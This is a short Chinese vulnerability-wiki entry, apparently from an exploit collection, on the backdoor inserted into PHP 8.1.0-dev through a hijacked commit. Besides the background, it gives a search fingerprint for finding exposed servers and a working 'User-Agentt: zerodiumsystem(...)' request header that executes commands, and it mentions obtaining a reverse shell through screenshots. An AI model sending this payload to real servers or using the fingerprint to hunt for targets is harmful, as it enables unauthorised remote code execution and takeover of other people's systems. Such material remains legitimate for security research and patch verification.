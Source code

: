  # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

<a-checkbox checked>PHP 8.1.0-dev</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"PHP/8.1.0-dev"</a-checkbox></br>

## 漏洞复现

后门为添加请求头(是 User-Agentt 不是 User-Agent)

```plain
User-Agentt: zerodiumsystem('id');
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313092832416.png)



反弹shell

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7134912.png)